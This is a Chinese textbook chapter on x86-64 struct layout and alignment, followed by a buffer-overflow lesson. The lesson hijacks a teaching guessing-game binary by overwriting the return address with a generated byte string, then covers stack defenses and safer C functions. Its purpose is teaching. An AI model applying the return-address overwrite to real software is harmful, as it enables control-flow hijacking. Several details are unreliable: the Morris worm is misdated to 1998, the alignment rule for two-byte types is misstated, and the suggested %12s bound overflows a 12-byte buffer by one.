字段按照声明的顺序在内存中连续存储。在 图 7-13 中，`age` 字段被分配到紧跟 `name` 字段之后的内存位置（字节偏移 *x*[64]），之后是 `grad_yr`（字节偏移 *x*68）和 `gpa`（字节偏移 *x*[72]）字段。这样的布局使得对字段的内存访问更加高效。

为了理解编译器如何生成汇编代码来处理 `struct`，请考虑 `initStudent` 函数：

```
void initStudent(struct studentT *s, char *nm, int ag, int gr, float g) {

    strncpy(s->name, nm, 64);

    s->grad_yr = gr;

    s->age = ag;

    s->gpa = g;

}
```

`initStudent` 函数将 `struct studentT` 的基地址作为第一个参数，其他参数则是每个字段所需的值。以下列出了该函数的汇编代码：

```
Dump of assembler code for function initStudent:

0x4006aa <+0>:  push  %rbp                   # save rbp

0x4006ab <+1>:  mov   %rsp,%rbp              # update rbp (new stack frame)

0x4006ae <+4>:  sub   $0x20,%rsp             # add 32 bytes to stack frame

0x4006b2 <+8>:  mov   %rdi,-0x8(%rbp)        # copy 1st param to %rbp-0x8 (s)

0x4006b6 <+12>: mov   %rsi,-0x10(%rbp)       # copy 2nd param to %rpb-0x10 (nm)

0x4006ba <+16>: mov   %edx,-0x14(%rbp)       # copy 3rd param to %rbp-0x14 (ag)

0x4006bd <+19>: mov   %ecx,-0x18(%rbp)       # copy 4th param to %rbp-0x18 (gr)

0x4006c0 <+22>: movss %xmm0,-0x1c(%rbp)      # copy 5th param to %rbp-0x1c (g)

0x4006c5 <+27>: mov   -0x8(%rbp),%rax        # copy s to %rax

0x4006c9 <+31>: mov   -0x10(%rbp),%rcx       # copy nm to %rcx

0x4006cd <+35>: mov   $0x40,%edx             # copy 0x40 (or 64) to %edx

0x4006d2 <+40>: mov   %rcx,%rsi              # copy nm to %rsi

0x4006d5 <+43>: mov   %rax,%rdi              # copy s to %rdi

0x4006d8 <+46>: callq 0x400460 <strncpy@plt> # call strcnpy(s->name, nm, 64)

0x4006dd <+51>: mov   -0x8(%rbp),%rax        # copy s to %rax

0x4006e1 <+55>: mov   -0x18(%rbp),%edx       # copy gr to %edx

0x4006e4 <+58>: mov   %edx,0x44(%rax)        # copy gr to %rax+0x44 (s->grad_yr)

0x4006e7 <+61>: mov   -0x8(%rbp),%rax        # copy s to %rax

0x4006eb <+65>: mov   -0x14(%rbp),%edx       # copy ag to %edx

0x4006ee <+68>: mov   %edx,0x40(%rax)        # copy ag to %rax+0x40 (s->age)

0x4006f1 <+71>: mov   -0x8(%rbp),%rax        # copy s to %rax

0x4006f5 <+75>: movss -0x1c(%rbp),%xmm0      # copy g to %xmm0

0x4006fa <+80>: movss %xmm0,0x48(%rax)       # copy g to %rax+0x48

0x400700 <+86>: leaveq                       # prepare stack to exit function

0x400701 <+87>: retq                         # return (void func, %rax ignored)
```

牢记每个字段的字节偏移量对于理解这段代码至关重要。以下是一些需要注意的事项。

`strncpy` 调用接受三个参数：`s` 中 `name` 字段的基址、数组 `nm` 的地址，以及长度说明符。回想一下，由于 `name` 是 `struct studentT` 中的第一个字段，`s` 的地址就是 `s->name` 的地址。

```
0x4006b2 <+8>:  mov   %rdi,-0x8(%rbp)        # copy 1st param to %rbp-0x8 (s)

0x4006b6 <+12>: mov   %rsi,-0x10(%rbp)       # copy 2nd param to %rpb-0x10 (nm)

0x4006ba <+16>: mov   %edx,-0x14(%rbp)       # copy 3rd param to %rbp-0x14 (ag)

0x4006bd <+19>: mov   %ecx,-0x18(%rbp)       # copy 4th param to %rbp-0x18 (gr)

0x4006c0 <+22>: movss %xmm0,-0x1c(%rbp)      # copy 5th param to %rbp-0x1c (g)

0x4006c5 <+27>: mov   -0x8(%rbp),%rax        # copy s to %rax

0x4006c9 <+31>: mov   -0x10(%rbp),%rcx       # copy nm to %rcx

0x4006cd <+35>: mov   $0x40,%edx             # copy 0x40 (or 64) to %edx

0x4006d2 <+40>: mov   %rcx,%rsi              # copy nm to %rsi

0x4006d5 <+43>: mov   %rax,%rdi              # copy s to %rdi

0x4006d8 <+46>: callq 0x400460 <strncpy@plt> #call strcnpy(s->name, nm, 64)
```

这段代码包含了之前未讨论的寄存器（`%xmm0`）和指令（`movss`）。`%xmm0` 寄存器是为浮点值保留的寄存器之一。`movss` 指令表示移动到调用栈上的数据是单精度浮点类型。

下一部分（指令 `<initStudent+51>` 到 `<initStudent+58>`）将 `gr` 参数的值放置到 `s` 开始处偏移量为 0x44（或 68）的位置。重新查看 图 7-13 中的内存布局，可以看到这个地址对应于 `s->grad_yr`：

```
0x4006dd <+51>: mov   -0x8(%rbp),%rax        # copy s to %rax

0x4006e1 <+55>: mov   -0x18(%rbp),%edx       # copy gr to %edx

0x4006e4 <+58>: mov   %edx,0x44(%rax)        # copy gr to %rax+0x44 (s->grad_yr)
```

下一部分（指令 `<initStudent+61>` 到 `<initStudent+68>`）将 `ag` 参数复制到 `struct` 的 `s->age` 字段，该字段位于 `s` 地址偏移量为 0x40（或 64）字节的位置：

```
0x4006e7 <+61>: mov   -0x8(%rbp),%rax        # copy s to %rax

0x4006eb <+65>: mov   -0x14(%rbp),%edx       # copy ag to %edx

0x4006ee <+68>: mov   %edx,0x40(%rax)        # copy ag to %rax+0x40 (s->age)
```

最后，`g` 参数的值被复制到 `struct` 的 `s->gpa` 字段（字节偏移量为 72 或 0x48）。请注意 `%xmm0` 寄存器的使用，因为位于 `%rbp-0x1c` 位置的数据是单精度浮点数：

```
0x4006f1 <+71>: mov   -0x8(%rbp),%rax        # copy s to %rax

0x4006f5 <+75>: movss -0x1c(%rbp),%xmm0      # copy g to %xmm0

0x4006fa <+80>: movss %xmm0,0x48(%rax)       # copy g to %rax+0x48
```

#### 7.9.1 数据对齐与结构体

考虑以下修改后的 `struct studentT` 声明：

```
struct studentTM {

    char name[63]; //updated to 63 instead of 64

    int  age;

    int  grad_yr;

    float gpa;

};

struct studentTM student2;
```

`name` 字段的大小被修改为 63 字节，而不是原来的 64 字节。考虑一下这如何影响 `struct` 在内存中的布局。可能会让人产生这样的错觉，即它的布局如同 图 7-14 所示。



*图 7-14：更新后的 `struct` `studentTM` 的内存布局不正确。请注意，`name` 字段已从 64 字节减少至 63 字节。*

在这个描述中，`age` 字段位于紧接在 `name` 字段后的字节中。但这是不正确的。图 7-15 展示了内存中实际的布局。



*图 7-15：更新后的 `struct` `studentTM` 的正确内存布局。编译器添加了字节 *x*[63] 以满足内存对齐要求，但它不对应任何字段。*

x64 的对齐策略要求两个字节的数据类型（即 `short`）位于一个字节对齐的地址，四个字节的数据类型（即 `int`、`float` 和 `unsigned`）位于四字节对齐的地址，而较大的数据类型（`long`、`double` 和指针数据）则位于八字节对齐的地址。对于 `struct`，编译器会在字段之间添加空字节作为 *填充*，以确保每个字段满足其对齐要求。例如，在 图 7-15 中声明的 `struct` 中，编译器会在字节 *x*[63] 处添加一个填充字节，以确保 `age` 字段从一个是四的倍数的地址开始。正确对齐的值可以通过一次操作读取或写入，从而提高效率。

考虑以下定义的 `struct`：

```
struct studentTM {

    int  age;

    int  grad_yr;

    float gpa;

    char name[63];

};

struct studentTM student3;
```

将 `name` 数组移到末尾确保了 `age`、`grad_yr` 和 `gpa` 的四字节对齐。大多数编译器会删除 `struct` 末尾的填充字节。然而，如果 `struct` 被用作数组的一部分（例如，`struct studentTM courseSection[20];`），编译器将再次在数组中每个 `struct` 之间添加填充字节，以确保对齐要求得到正确满足。

### 7.10 现实世界：缓冲区溢出

C 语言不进行自动数组边界检查。访问数组边界之外的内存是有问题的，通常会导致诸如段错误之类的错误。然而，一个聪明的攻击者可以注入恶意代码，故意超出数组的边界（也称为 *缓冲区*）来迫使程序以非预期的方式执行。在最糟糕的情况下，攻击者可以运行允许他们获得 *root 权限* 或操作系统级别访问的代码。利用程序中已知的缓冲区溢出错误的一个软件被称为 *缓冲区溢出漏洞攻击*。

在本节中，我们使用 GDB 和汇编语言来全面描述缓冲区溢出漏洞攻击的原理。在阅读本章之前，我们建议你先查阅 第 177 页的“调试汇编代码”部分。

#### 7.10.1 缓冲区溢出的著名实例

缓冲区溢出漏洞攻击在 1980 年代出现，并在 2000 年代初期仍然是计算机行业的主要祸害。虽然许多现代操作系统对最简单的缓冲区溢出攻击有防护措施，但粗心的编程错误仍然可能使现代程序暴露于攻击之下。最近，Skype^(3)、Android^(4)、Google Chrome^(5) 等应用中发现了缓冲区溢出漏洞。

以下是一些著名的缓冲区溢出漏洞攻击的历史实例。

##### 莫里斯蠕虫

莫里斯蠕虫^(6)于 1998 年通过 MIT 的 ARPANet 发布（为了掩盖其由康奈尔大学的一名学生编写的事实），并利用了 Unix finger 守护进程（`fingerd`）中的缓冲区溢出漏洞。在 Linux 和其他类 Unix 系统中，*守护进程*是一种在后台持续执行的进程，通常执行清理和监控任务。`fingerd`守护进程返回关于计算机或用户的友好报告。最重要的是，蠕虫有一个复制机制，使其能够多次发送到同一台计算机，导致系统无法使用。尽管作者声称该蠕虫是作为一种无害的智力练习发布的，但复制机制使蠕虫能够轻松传播，并且很难移除。在之后的几年里，其他蠕虫也使用缓冲区溢出漏洞来获得未经授权的系统访问权限。著名的例子包括 Code Red（2001 年）、MS-SQLSlammer（2003 年）和 W32/Blaster（2003 年）。

##### AOL 聊天战争

大卫·奥尔巴赫^(7)，一位前微软工程师，详细描述了他在 1990 年代末期将微软的 Messenger 服务（MMS）与 AOL 即时消息（AIM）整合过程中遇到的缓冲区溢出问题。当时，如果你想和朋友或家人进行即时消息（IM）交流，AOL 即时消息（AIM）是*唯一*的服务。微软试图通过在 MMS 中设计一项功能，使 MMS 用户能够与他们的 AIM“好友”交流，来在这个市场中占一席之地。AOL 不满于此，修补了他们的服务器，使 MMS 无法再与其连接。微软的工程师找到了让 MMS 客户端模仿 AIM 客户端发送到 AOL 服务器的消息的方式，使得 AOL 很难区分由 MMS 和 AIM 接收到的消息。AOL 回应道，通过改变 AIM 发送消息的方式来进行应对，MMS 的工程师也相应修改了客户端的消息，再次与 AIM 的消息保持一致。这场“聊天战争”持续了下来，直到 AOL 开始在*他们自己的客户端*中使用缓冲区溢出错误来验证发送的消息是否来自 AIM 客户端。由于 MMS 客户端没有相同的漏洞，这场聊天战争最终以 AOL 的胜利告终。

#### 7.10.2 初步了解：猜测游戏

为了帮助你理解缓冲区溢出攻击的机制，我们提供了一个简单程序的可执行文件，该程序让用户与程序进行猜测游戏。下载`secret`可执行文件^(8)并使用`tar`命令解压：

```
$ tar -xzvf secretx86-64.tar.gz
```

在接下来的部分，我们提供了与可执行文件相关的主文件副本：

main.c

```
#include <stdio.h>

#include <stdlib.h>

#include "other.h" //contains secret function definitions

/*prints out the You Win! message*/

void endGame(void) {

    printf("You win!\n");

    exit(0);

}

/*main function of the game*/

int main() {

    int guess, secret, len, x=3

    char buf[12]; //buffer (12 bytes long)

    printf("Enter secret number:\n");

    scanf("%s", buf); //read guess from user input

    guess = atoi(buf); //convert to an integer

    secret = getSecretCode(); //call the getSecretCode function

    //check to see if guess is correct

    if (guess == secret) {

        printf("You got it right!\n");

    }

    else {

        printf("You are so wrong!\n");

        return 1; //if incorrect, exit

    }

    printf("Enter the secret string to win:\n");

    scanf("%s", buf); //get secret string from user input

    guess = calculateValue(buf, strlen(buf)); //call calculateValue function

    //check to see if guess is correct

    if (guess != secret) {

        printf("You lose!\n");

        return 2; //if guess is wrong, exit

    }

    /*if both the secret string and number are correct

    call endGame()*/

    endGame();

    return 0;

}
```

这个游戏要求用户首先输入一个秘密数字，然后输入一个秘密字符串以赢得猜谜游戏。头文件`other.h`包含`getSecretCode`和`calculateValue`函数的定义，但我们无法访问它。那么，用户如何能击败这个程序呢？暴力破解的解决方案需要太长时间。一个策略是使用 GDB 分析`secret`可执行文件并逐步执行汇编代码，以揭示秘密数字和字符串。通过汇编代码反向分析以揭示其工作原理的过程通常被称为*反向工程*汇编。熟悉 GDB 和汇编阅读的读者应该能够通过使用 GDB 反向工程这些值，找出秘密数字和字符串是什么。

然而，还有一种更隐蔽的方式可以获胜。

#### 7.10.3 深入观察（C 语言下的实现）

程序在第一次调用`scanf`时存在潜在的缓冲区溢出漏洞。为了理解发生了什么，让我们使用 GDB 检查`main`函数的汇编代码。我们还将在地址 0x0000000000400717 处设置一个断点，这是`scanf`调用前的指令地址（注意，将断点放在`scanf`的地址会导致程序执行在`scanf`内部暂停，而不是在`main`中）。

```
   0x00000000004006f2 <+0>:   push   %rbp

   0x00000000004006f3 <+1>:   mov    %rsp,%rbp

   0x00000000004006f6 <+4>:   sub    $0x20,%rsp

   0x00000000004006fa <+8>:   movl   $0x3,-0x4(%rbp)

   0x0000000000400701 <+15>:  mov    $0x400873,%edi

   0x0000000000400706 <+20>:  callq  0x400500 <printf@plt>

   0x000000000040070b <+25>:  lea    -0x20(%rbp),%rax

   0x000000000040070f <+29>:  mov    %rax,%rsi

   0x0000000000400712 <+32>:  mov    $0x400888,%edi

=> 0x0000000000400717 <+37>:  mov    $0x0,%eax

   0x000000000040071c <+42>:  callq  0x400540 <scanf@plt>
```

图 7-16 展示了调用`scanf`前的栈状态。



*图 7-16：调用`scanf`之前的调用栈*

在调用`scanf`之前，`scanf`的前两个参数已分别预加载到寄存器`%edi`和`%rsi`中。位于`<main+25>`位置的`lea`指令创建了数组`buf`的引用。

现在，假设用户在提示符下输入`1234567890`。图 7-17 展示了`scanf`调用完成后栈的状态。



*图 7-17：调用`scanf`后，输入`1234567890`的调用栈*

回想一下，数字 0 到 9 的 ASCII 编码的十六进制值分别是 0x30 到 0x39，并且每个栈内存位置的长度为 8 字节。帧指针距离栈指针 32 字节。读者可以通过使用 GDB 打印`%rbp`的值来确认其值（命令为`p` `$rbp`）。在所示的示例中，`%rbp`的值为 0x7fffffffdd10。以下命令允许读者查看`%rsp`下方 48 字节（以十六进制显示）：

```
(gdb) x /48bx $rsp
```

此 GDB 命令输出的内容看起来类似于以下内容：

```
(gdb) x /48bx $rsp

0x7fffffffdcf0: 0x31  0x32  0x33  0x34  0x35  0x36  0x37  0x38

0x7fffffffdcf8: 0x39  0x30  0x00  0x00  0x00  0x00  0x00  0x00

0x7fffffffdd00: 0xf0  0xdd  0xff  0xff  0xff  0x7f  0x00  0x00

0x7fffffffdd08: 0x00  0x00  0x00  0x00  0x03  0x00  0x00  0x00

0x7fffffffdd10: 0xd0  0x07  0x40  0x00  0x00  0x00  0x00  0x00

0x7fffffffdd18: 0x30  0xd8  0xa2  0xf7  0xff  0x7f  0x00  0x00
```

每一行表示一个 64 位地址，或两个 32 位地址。因此，32 位地址 0x7fffffffdd0c 所关联的值位于显示 0x7fffffffdd08 的行的最右边四个字节。

**注意：多字节值以小端顺序存储**

在前面的汇编段中，地址 0xf7ffffffdd00 处的字节是 0xf0，地址 0xf7ffffffdd01 处的字节是 0xdd，地址 0xf7ffffffdd02 处的字节是 0xff，地址 0xf7ffffffdd03 处的字节是 0xff，地址 0xf7ffffffdd04 处的字节是 0xff，地址 0xf7ffffffdd05 处的字节是 0x7f。然而，地址 0x7fffffffdd00 处的 64 位*值*实际上是 0x7fffffffddf0。请记住，由于 x86-64 是一个小端系统（参见第 224 页的“整数字节顺序”），多字节值（如地址）的字节是以反向顺序存储的。

在这个例子中，`buf`的地址位于栈的顶部。因此，前两个地址保存了与输入字符串 1234567890 相关的输入字节：

```
0x7fffffffdcf0: 0x31  0x32  0x33  0x34  0x35  0x36  0x37  0x38

0x7fffffffdcf8: 0x39  0x30  0x00  0x00  0x00  0x00  0x00  0x00
```

空字符终止字节`\0`出现在第三个最重要字节的位置，即地址 0x7fffffffdcf8（即，地址 0x7fffffffdcfa）。回想一下，`scanf`会用一个空字节终止所有字符串。

当然，1234567890 不是秘密数字。以下是当我们尝试使用输入字符串 1234567890 运行`secret`时的输出：

```
$ ./secret

Enter secret number:

1234567890

You are so wrong!

$ echo $?

1
```

`echo $?`命令会打印出上一条执行命令的返回值。在这个例子中，程序返回了 1，因为我们输入的秘密数字是错误的。请记住，按照惯例，程序在没有错误时返回 0。我们接下来的目标是欺骗程序，使其返回值为 0，表示我们赢得了游戏。

#### 7.10.4 缓冲区溢出：第一次尝试

接下来，让我们尝试输入字符串 1234567890123456789012345678901234567890123：

```
$ ./secret

Enter secret number:

1234567890123456789012345678901234567890123

You are so wrong!

Segmentation fault (core dumped)

$ echo $?

139
```

有趣！现在程序因段错误崩溃，返回代码为 139。图 7-18 展示了在输入新字符串后，`main`函数的调用栈状态。



*图 7-18：在输入 1234567890123456789012345678901234567890123 并调用`scanf`后，调用栈的状态*

输入字符串如此之长，以至于它不仅覆盖了存储在 0xd08 和 0xd10 处的值，还溢出到了`main`函数的栈帧下方的返回地址。回想一下，当一个函数返回时，程序会尝试在返回地址指定的地址继续执行。在这个例子中，程序在退出`main`后试图在地址 0xf7ff00333231 处恢复执行，但这个地址似乎不存在。因此，程序因段错误崩溃。

在 GDB 中重新运行程序（`input.txt`包含上述输入字符串）会揭示出这种恶意行为的实际效果：

```
$ gdb secret

(gdb) break *0x0000000000400717

(gdb) run < input.txt

(gdb) ni

(gdb) x /48bx $rsp

0x7fffffffdcf0: 0x31  0x32  0x33  0x34  0x35  0x36  0x37  0x38

0x7fffffffdcf8: 0x39  0x30  0x31  0x32  0x33  0x34  0x35  0x36

0x7fffffffdd00: 0x37  0x38  0x39  0x30  0x31  0x32  0x33  0x34

0x7fffffffdd08: 0x35  0x36  0x37  0x38  0x39  0x30  0x31  0x32

0x7fffffffdd10: 0x33  0x34  0x35  0x36  0x37  0x38  0x39  0x30

0x7fffffffdd18: 0x31  0x32  0x33  0x00  0xff  0x7f  0x00  0x00

(gdb) n

Single stepping until exit from function main,

which has no line number information.

You are so wrong!

0x00007fff00333231 in ?? ()
```

请注意，我们的输入字符串超出了`buf`数组的规定范围，覆盖了栈上存储的其他所有值。换句话说，我们的字符串造成了缓冲区溢出，并破坏了调用栈，导致程序崩溃。这个过程也被称为*堆栈破坏*。

#### 7.10.5 更智能的缓冲区溢出：第二次尝试

我们的第一个示例通过覆盖`%rbp`寄存器和返回地址，并填入垃圾数据，导致程序崩溃。一个目标仅仅是让程序崩溃的攻击者在这一点上就可以满足了。然而，我们的目标是欺骗猜测游戏返回 0，表示我们赢得了游戏。我们通过用比垃圾数据更有意义的数据填充调用栈来实现这一点。例如，我们可以覆盖栈，使返回地址被`endGame`的地址替换。这样，当程序尝试从`main`返回时，它将执行`endGame`，而不是因为段错误而崩溃。

为了找出`endGame`的地址，让我们在 GDB 中再次检查`secret`：

```
$ gdb secret

(gdb) disas endGame

Dump of assembler code for function endGame:

   0x00000000004006da <+0>:   push   %rbp

   0x00000000004006db <+1>:   mov    %rsp,%rbp

   0x00000000004006de <+4>:   mov    $0x40086a,%edi

   0x00000000004006e3 <+9>:   callq  0x400500 <puts@plt>

   0x00000000004006e8 <+14>:  mov    $0x0,%edi

   0x00000000004006ed <+19>:  callq  0x400550 <exit@plt>

End of assembler dump.
```

请注意，`endGame`的起始地址是 0x00000000004006da。图 7-19 展示了一个示例攻击，它强制`secret`执行`endGame`函数。


*图 7-19：一个强制`secret`执行`endGame`函数的示例字符串*

本质上，有 40 个字节的垃圾数据，后面跟着返回地址。同样，由于 x86-64 是小端系统，返回地址中的字节按反向顺序显示。

以下程序演示了攻击者如何构造前面的攻击：

```
#include <stdio.h>

char ebuff[]=

"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*first 10 bytes of junk*/

"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*next 10 bytes of junk*/

"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*following 10 bytes of junk*/

"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*last 10 bytes of junk*/

"\xda\x06\x40\x00\x00\x00\x00\x00" /*address of endGame (little endian)*/

;

int main(void) {

    int i;

    for (i = 0; i < sizeof(ebuff); i++) { /*print each character*/

        printf("%c", ebuff[i]);

    }

    return 0;

}
```

每个数字前的`\x`表示该数字以字符的十六进制表示形式显示。在定义了`ebuff[]`之后，`main`函数只需逐个字符打印出来。要获取相关的字节串，按照以下方式编译并运行此程序：

```
$ gcc -o genEx genEx.c

$ ./genEx > exploit
```

要将文件`exploit`作为输入传递给`scanf`，只需按照以下方式运行`secret`并提供`exploit`：

```
$ ./secret < exploit

Enter secret number:

You are so wrong!

You win!
```

程序打印出“你错得太离谱了！”因为`exploit`中包含的字符串*不是*秘密数字。然而，程序也打印出了字符串“你赢了！”然而，请记住，我们的目标是欺骗程序返回 0。在更大的系统中，其中“成功”这一概念由外部程序跟踪，通常最重要的是程序返回的内容，而不是它打印出的内容。

检查返回值得到：

```
$ echo $?

0
```

我们的攻击成功了！我们赢得了游戏！

#### 7.10.6 防护缓冲区溢出

我们展示的示例改变了`secret`可执行文件的控制流，强制它返回与成功相关的零值。然而，像这样的攻击可能会造成真正的损害。此外，一些旧的计算机系统曾经*执行*来自栈内存的字节。如果攻击者将与汇编指令相关的字节放置在调用栈上，CPU 会将这些字节解释为*真正*的指令，从而使攻击者能够强制 CPU 执行*任何他们选择的任意代码*。幸运的是，现代计算机系统采取了一些策略，使得攻击者更难以成功执行缓冲区溢出攻击：

**栈随机化。** 操作系统将栈的起始地址分配到栈内存中的随机位置，导致调用栈的位置/大小在每次程序运行时有所不同。多台运行相同代码的机器将有不同的栈地址。现代 Linux 系统将栈随机化作为标准做法。然而，一名决心坚定的攻击者可以通过尝试使用不同地址重复进行攻击，从而进行暴力破解。一种常见的技巧是使用*NOP 滑道*（即大量`nop`指令）放置在实际的利用代码之前。执行`nop`指令（`0x90`）没有任何效果，只是让程序计数器递增到下一个指令。只要攻击者能够让 CPU 在 NOP 滑道中执行，NOP 滑道最终会引导到它后面的利用代码。Aleph One 的写作^(9)详细描述了这种攻击机制。

**栈破坏检测。** 另一道防线是尝试检测栈是否被破坏。GCC 的最新版本使用了一种称为*金丝雀*的栈保护器，它充当缓冲区和栈其他元素之间的守卫。金丝雀是一个存储在不可写内存区域中的值，可以与栈上放置的值进行比较。如果金丝雀在程序执行过程中“死亡”，程序就知道它受到了攻击，并以错误信息中止。然而，聪明的攻击者可以替换金丝雀，从而防止程序检测到栈破坏。

**限制可执行区域。** 在这一防线中，可执行代码仅限于特定的内存区域。换句话说，调用栈不再是可执行的。然而，甚至这种防线也可以被突破。在利用*返回导向编程*（ROP）进行的攻击中，攻击者可以在可执行区域内“挑选”指令，并通过指令间跳跃来构建利用代码。网上有一些著名的实例，尤其是在视频游戏中。^(10)

然而，最好的防线始终是程序员。为了防止程序受到缓冲区溢出攻击，请尽可能使用带有*长度说明符*的 C 函数，并添加执行数组边界检查的代码。确保任何定义的数组都与选择的长度说明符匹配至关重要。表 7-19 列出了一些常见的“坏”C 函数，这些函数容易受到缓冲区溢出攻击，并且列出了相应的“好”函数（假设`buf`被分配了 12 个字节）。

**表 7-19：** 带有长度说明符的 C 函数

| **替代** | **使用** |
| --- | --- |
| `gets(buf)` | `fgets(buf, 12, stdin)` |
| `scanf("%s", buf)` | `scanf("%12s", buf)` |
| `strcpy(buf2, buf)` | `strncpy(buf2, buf, 12)` |
| `strcat(buf2, buf)` | `strncat(buf2, buf, 12)` |
| `sprintf(buf, "%d", num)` | `snprintf(buf, 12, "%d", num)` |

`secret2` 二进制文件^(11)不再具有缓冲区溢出漏洞。以下是该新二进制文件的 `main` 函数：

main2.c

```
#include <stdio.h>

#include <stdlib.h>

#include "other.h" //contain secret function definitions

/*prints out the You Win! message*/

void endGame(void) {

    printf("You win!\n");

    exit(0);

}

/*main function of the game*/

int main() {

    int guess, secret, len, x=3

    char buf[12]; //buffer (12 bytes long)

    printf("Enter secret number:\n");

    scanf("%12s", buf); //read guess from user input (fixed!)

    guess = atoi(buf); //convert to an integer

    secret=getSecretCode(); //call the getSecretCode function

    //check to see if guess is correct

    if (guess == secret) {

        printf("You got it right!\n");

    }

    else {

        printf("You are so wrong!\n");

        return 1; //if incorrect, exit

    }

    printf("Enter the secret string to win:\n");

    scanf("%12s", buf); //get secret string from user input (fixed!)

    guess = calculateValue(buf, strlen(buf)); //call calculateValue function

    //check to see if guess is correct

    if (guess != secret) {

        printf("You lose!\n");

        return 2; //if guess is wrong, exit

    }

    /*if both the secret string and number are correct

    call endGame()*/

    endGame();

    return 0;

}
```

请注意，我们为所有 `scanf` 调用添加了长度说明符，导致 `scanf` 函数在读取输入的前 12 个字节后停止读取。此时，漏洞字符串不再破坏程序：

```
$ ./secret2 < exploit

Enter secret number:

You are so wrong!

$ echo $?

1
```

当然，任何具备基本逆向工程技能的读者仍然可以通过分析汇编代码来赢得猜测游戏。如果你还没有尝试通过逆向工程来破解程序，我们鼓励你现在就尝试。

### 注释

1. Edsger Dijkstra，“Go To 语句被认为是有害的，” *ACM 通讯* 11(3)，第 147–148 页，1968 年。

2. *[`diveintosystems.org/book/C7-x86_64/recursion.html`](https://diveintosystems.org/book/C7-x86_64/recursion.html)*

3. Mohit Kumar, “致命的 Skype 漏洞允许黑客远程执行恶意代码，” *[`thehackernews.com/2017/06/skype-crash-bug.html`](https://thehackernews.com/2017/06/skype-crash-bug.html)*, 2017.

4. Tamir Zahavi-Brunner, “CVE-2017-13253：多个 Android DRM 服务中的缓冲区溢出，” *[`blog.zimperium.com/cve-2017-13253-buffer-overflow-multiple-android-drm-services/`](https://blog.zimperium.com/cve-2017-13253-buffer-overflow-multiple-android-drm-services/)*, 2018.

5. Tom Spring, “谷歌修补‘高危’浏览器漏洞，” *[`threatpost.com/google-patches-high-severity-browser-bug/128661/`](https://threatpost.com/google-patches-high-severity-browser-bug/128661/)*, 2017.

6. Christopher Kelty, “莫里斯蠕虫，” *Limn Magazine*，第 1 期：系统性风险，2011 年。* [`limn.it/articles/the-morris-worm/`](https://limn.it/articles/the-morris-worm/)*

7. David Auerbach, “聊天战争：微软与 AOL，” *NplusOne Magazine*，第 19 期，2014 年春季。* [`nplusonemag.com/issue-19/essays/chat-wars/`](https://nplusonemag.com/issue-19/essays/chat-wars/)*

8. *[`diveintosystems.org/book/C7-x86_64/_attachments/secretx86-64.tar.gz`](https://diveintosystems.org/book/C7-x86_64/_attachments/secretx86-64.tar.gz)*

9. Aleph One, “为了乐趣和利润摧毁堆栈，” *[`insecure.org/stf/smashstack.html`](http://insecure.org/stf/smashstack.html)*, 1996.

10. DotsAreCool, “超级马里奥世界信用传送” (任天堂 ROP 示例)， *[`youtu.be/vAHXK2wut_I`](https://youtu.be/vAHXK2wut_I)*, 2015.

11. *[`diveintosystems.org/book/C7-x86_64/_attachments/secret2x86-64.tar.gz`](https://diveintosystems.org/book/C7-x86_64/_attachments/secret2x86-64.tar.gz)*
